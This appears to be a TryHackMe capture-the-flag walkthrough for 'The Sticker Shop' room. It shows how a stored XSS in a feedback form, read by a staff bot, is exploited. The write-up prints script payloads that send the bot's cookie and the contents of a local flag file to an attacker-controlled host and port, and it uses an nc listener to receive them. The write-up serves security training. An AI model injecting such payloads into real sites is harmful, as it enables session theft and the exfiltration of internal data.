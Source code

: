 ```yaml
---
title: The Sticker Shop - TryHackMe - Walkthrough
date: 2024-12-01 08:00:00 +0200
categories: [TryHackMe]
tags: [shop,xss,feedback,easy]
description: Simple room, just about exploiting a XSS vulnerability
image:
  path: /assets/blog/The-Sticker-Shop/Room.png
  alt: Lookup Room image
---
```


## Description

> Your local sticker shop has finally developed its own webpage. They do not have too much experience regarding web development, so they decided to develop and host everything on the same computer that they use for browsing the internet and looking at customer feedback. Smart move!
>
> Can you read the flag at `http://10.10.114.115:8080/flag.txt`?

## Simple exploit

For this room I didn't even start with an initial `nmap` scan, I went straight to port 8080 and visited the page.

![](/assets/blog/The-Sticker-Shop/website.png)

I noticed the feedback form and visited that page.

![](/assets/blog/The-Sticker-Shop/feedback.png)

If we enter some feedback and then press the Submit button, we get this response:

> Thanks for your feedback! It will be evaluated shortly by our staff


This sounds like there could be a bot always checking the new feedback data, which may lead us to XSS...

I started with my standart XSS payload:
```html
<script>fetch("http://10.14.78.229:4444/"+document.cookie);</script>
```
To receive an incoming connection I started a listener:
```sh
nc -lvnp 4444
```

Suddenly I got back the connection. That looks promising, but there is no cookie so we can't just add the cookie to our cookies and view the flag, apparently the flag is only visible for the bot.

![](/assets/blog/The-Sticker-Shop/connection.png)

The next idean in my head was that we could fetch the cookie in the Javascript in our XSS payload and send the contents of the page back to us.
This is how we can fetch a website in JS described by ChatGPT:
```js
fetch('https://example.com') // Replace with the URL you want to fetch
  .then(response => {
    if (!response.ok) {
      throw new Error(`HTTP error! status: ${response.status}`);
    }
    return response.text(); // Use .json() if expecting a JSON response
  })
  .then(data => {
    console.log(data); // Logs the page's HTML or response body
  })
  .catch(error => {
    console.error('Error fetching the page:', error);
  });
```

Let's modify this to build our own payload. I first removed all the error handling cause this doesn't help. Then I added our own fetch with the data to the payload:
```js
fetch('http://127.0.0.1:8080/flag.txt').then(response => {
  return response.text();
  }).then(data => {
    fetch("http://10.14.78.229:4444/"+data);
  })
```
If we make this a one-liner, that we don't get any errors that way, the payload looks like this:
```html
<script>fetch('http://127.0.0.1:8080/flag.txt').then(response => {return response.text();}).then(data => {fetch("http://10.14.78.229:4444/"+data);})</script>
```

We now can send the payload in the XSS form and try to get the flag.

![](/assets/blog/The-Sticker-Shop/flag.png)

We now have the flag, if you wan't the flag now in a clean format, you can take everything after the `/` and paste it into CyberChef, then you can URL decode it to the flag.

In my opinion this is a nice room in which you can easily practice XSS and learn more to craft your own payloads.
